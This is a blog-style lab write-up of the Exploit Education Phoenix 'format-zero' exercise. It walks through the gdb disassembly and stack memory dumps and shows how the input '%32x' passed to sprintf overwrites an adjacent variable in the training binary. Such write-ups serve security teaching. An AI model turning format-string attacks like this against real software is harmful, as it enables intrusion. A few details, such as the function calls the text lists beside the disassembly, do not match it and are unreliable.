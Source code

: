 ```yaml
---
layout: post
title: Format Zero Writeup - Exploit Education Lab Exercise
categories: [security, binary-exploit, reverse-engineering, friday-gems]
tags: [security, binary-exploitation, friday-gems]
description: A comprehensive writeup that helps to understand Format Zero exercise stack-overflow vulnerability with learning resources.
comments: true
---
```


### Previous Writeup: 

1. [Stack Zero Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/12/exploit-education-stack-zero-exercise-writeup.html)
2. [Stack One Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/20/exploit-education-stack-one-exercise-writeup.html)
3. [Stack Two Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/26/exploit-education-stack-two-exercise-writeup.html)
4. [Stack Three Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/27/exploit-education-stack-three-exercise-writeup.html)
5. [Stack Four Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/28/exploit-education-stack-four-exercise-writeup.html)
6. [Stack Five Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/02/04/exploit-education-stack-five-exercise-writeup.html)
7. [Stack Six Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/02/26/exploit-education-stack-six-exercise-writeup.html)

If you haven't done setting-up your lab, feel free to check out my previous article on [Exploit.education lab setup](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/06/exploit-education-lab-setup.html)

### Quick Overview

Format Zero exercise motives are smashing the stack, overwrite arbitrary memory address or variable. However, this Format Zero challenge revolves around [`Format String Vulnerability`](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/).

### Disassemble

Disassembling the code will get you overall idea behind the format-zero code, One can use `gdb ./format-zero` to start debugging it in runtime.

1. `gdb ./format-zero`
2. Type `disassemble main` to get the disassembled code (assembly)

```assembly
   0x000000000040069d <+0>:     push   rbp
   0x000000000040069e <+1>:     mov    rbp,rsp
   0x00000000004006a1 <+4>:     sub    rsp,0x50
   0x00000000004006a5 <+8>:     mov    DWORD PTR [rbp-0x44],edi
   0x00000000004006a8 <+11>:    mov    QWORD PTR [rbp-0x50],rsi
   0x00000000004006ac <+15>:    mov    edi,0x400790
   0x00000000004006b1 <+20>:    call   0x4004e0 <puts@plt>
   0x00000000004006b6 <+25>:    mov    rdx,QWORD PTR [rip+0x200423]        # 0x600ae0 <stdin>
   0x00000000004006bd <+32>:    lea    rax,[rbp-0x40]
   0x00000000004006c1 <+36>:    mov    esi,0xf
   0x00000000004006c6 <+41>:    mov    rdi,rax
   0x00000000004006c9 <+44>:    call   0x4004d0 <fgets@plt>
   0x00000000004006ce <+49>:    test   rax,rax
   0x00000000004006d1 <+52>:    jne    0x4006e7 <main+74>
   0x00000000004006d3 <+54>:    mov    esi,0x4007dc
   0x00000000004006d8 <+59>:    mov    edi,0x1
   0x00000000004006dd <+64>:    mov    eax,0x0
   0x00000000004006e2 <+69>:    call   0x4004f0 <errx@plt>
   0x00000000004006e7 <+74>:    mov    BYTE PTR [rbp-0x31],0x0
   0x00000000004006eb <+78>:    mov    DWORD PTR [rbp-0x10],0x0
   0x00000000004006f2 <+85>:    lea    rdx,[rbp-0x40]
   0x00000000004006f6 <+89>:    lea    rax,[rbp-0x30]
   0x00000000004006fa <+93>:    mov    rsi,rdx
   0x00000000004006fd <+96>:    mov    rdi,rax
   0x0000000000400700 <+99>:    mov    eax,0x0
   0x0000000000400705 <+104>:   call   0x400500 <sprintf@plt>
   0x000000000040070a <+109>:   mov    eax,DWORD PTR [rbp-0x10]
   0x000000000040070d <+112>:   test   eax,eax
   0x000000000040070f <+114>:   je     0x40071d <main+128>
   0x0000000000400711 <+116>:   mov    edi,0x4007f8
   0x0000000000400716 <+121>:   call   0x4004e0 <puts@plt>
   0x000000000040071b <+126>:   jmp    0x400727 <main+138>
   0x000000000040071d <+128>:   mov    edi,0x400830
   0x0000000000400722 <+133>:   call   0x4004e0 <puts@plt>
   0x0000000000400727 <+138>:   mov    edi,0x0
   0x000000000040072c <+143>:   call   0x400510 <exit@plt>
```

Before taking a look at the code, if you disassembled the format-zero using gdb to view the assembly instruction, you may notice the puts, greet, strncpy and strcpy function calls with parameters. So basically when you hit `r` in gdb without breakpoint,

1. Greet with `Welcome to phoenix/format-zero, brought to you by https://exploit.education` message via Puts (aka printf) method
2. Declares `locals` struct with `char dest[32]` and `volatile int changeme` 
3. Utilizes `fgets` to collect user input and transfers to the buffer with `buffer` size as limit.
4. Assigns struct variable `locals.changeme` as `zero`
5. Formats `buffer` variables using `sprintf` and saves in `locals.dest` 
6. Verifies that if `locals.changeme` variables for changes.

### Memory Allocation

 If you take closer look at the memory allocation, every variables declared in the program are allocated in the stack (static). The locals struct contains both `char dest[32]` and `int changeme` variables packed. Additionally, `buffer` char array with size of 16 is allocated next to the struct `locals`. Technically, you can't basically overwrite the `struct` with `buffer` char array. However, things get tricky when the program starts using `sprintf` function to format the `buffer` char array and writes back to `locals.dest` buffer.

 Basically, Format String vulnerability happens because certain type of inputs ( such as `%32x`) as format string modifier to `sprintf` causes the function to expand and write `approximately 32 bytes` into `locals.dest` variable. `sprintf(locals.dest, '%32x')` has special meaning within the function to expand this modifier into memory address in stack say range upto 32 bytes and then copies back to `locals.dest` thus overwriting both locals.dest as well as `locals.changeme` variable in memory.

#### State of memory before executing exploit
 ```
 (gdb) x/16x $rbp-0x40
0x7fffffffe620: 0x41414141      0x00000a41      0x00000000      0x00000000
0x7fffffffe630: 0x41414141      0x00000a41      0xffffe6b8      0x00007fff
0x7fffffffe640: 0x00000001      0x00000000      0xffffe6c8      0x00007fff
0x7fffffffe650: 0x00000000      0x00000000      0x00000000      0x00000000
(gdb) x/16x $rbp-0x10
0x7fffffffe650: 0x00000000      0x00000000      0x00000000      0x00000000  # <-- 0x7fffffffe650 - Zero
0x7fffffffe660: 0x00000001      0x00000000      0xf7d8fd62      0x00007fff
0x7fffffffe670: 0x00000000      0x00000000      0xffffe6b0      0x00007fff
0x7fffffffe680: 0x00000000      0x00000000      0xf7ffdbc8      0x00007fff
```

#### State of memory after executing exploit (Overwritten by sprintf function)
 ```shell
(gdb) x/16x $rbp-0x40
0x7fffffffe620: 0x25414141      0x0a783233      0x00000000      0x00000000
0x7fffffffe630: 0x20414141      0x20202020      0x20202020      0x20202020
0x7fffffffe640: 0x20202020      0x20202020      0x66202020      0x65666666
0x7fffffffe650: 0x0a303236      0x00000000      0x00000000      0x00000000
(gdb) x/16x $rbp-0x10
0x7fffffffe650: 0x0a303236      0x00000000      0x00000000      0x00000000 # <-- 0x7fffffffe650 - 0x0a303236
0x7fffffffe660: 0x00000001      0x00000000      0xf7d8fd62      0x00007fff
0x7fffffffe670: 0x00000000      0x00000000      0xffffe6b0      0x00007fff
0x7fffffffe680: 0x00000000      0x00000000      0xf7ffdbc8      0x00007fff
```

### Exploit

Now, our strategy should be,

1. Input `format string` as `%32x`
2. Now, `sprintf` overwrites the `locals.dest` using random address from stack completely overwriting  `32 characters` in the memory including
`locals.changeme` variable which sits next to `locals.dest`

```shell
user@phoenix-amd64:/opt/phoenix/amd64$ ./format-zero
Welcome to phoenix/format-zero, brought to you by https://exploit.education
%32x
Well done, the 'changeme' variable has been changed!
```

There you go! 🎉 You've officially `pwned` the may eventually gain code execution in upcoming exercises 🪲

![buffer-overflow-pride](/assets/media/htb-sherlock.webp)

### Source and Reference:

1. Format Zero Exercise: [Exploit Education](https://exploit.education/phoenix/format-zero/)


### Closing Note:

I hope this post is helpful for vulnerability researcher 🔍 & code reviewers, For bugs,hugs & discussion, DM in [Twitter](https://twitter.com/sshivasurya). Opinions are my own and not the views of my employer.
